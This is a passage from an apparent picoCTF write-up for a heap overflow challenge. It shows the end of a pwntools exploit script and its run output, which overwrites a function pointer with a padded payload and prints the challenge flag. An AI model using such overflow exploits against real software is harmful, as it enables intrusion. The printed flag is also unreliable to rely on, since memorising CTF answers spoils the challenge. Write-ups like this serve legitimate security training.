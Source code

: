 ```python
print(p.recvuntil(b"Data for buffer: "))
p.sendline(payload)
p.sendline("4")
print(p.recvuntil(b"Enter your choice: "))
print(p.recv())
p.close()
```
_(You can find the script [here](./pwnage.py))_

And run the script to get the final flag:
```
$ python pwnage.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11@\x00\x00\x00\x00\x00'
[+] Opening connection to mimas.picoctf.net on port 58213: Done
b'\nI have a function, I sometimes like to call it, maybe you should change it\n\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. Exit\n\nEnter your choice: '
/tmp/pico/pwnage.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("2")
b'Data for buffer: '
/tmp/pico/pwnage.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("4")
b'\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. Exit\n\nEnter your choice: '
b'picoCTF{and_down_the_road_we_go_91218226}\n'
[*] Closed connection to mimas.picoctf.net port 58213
$
```
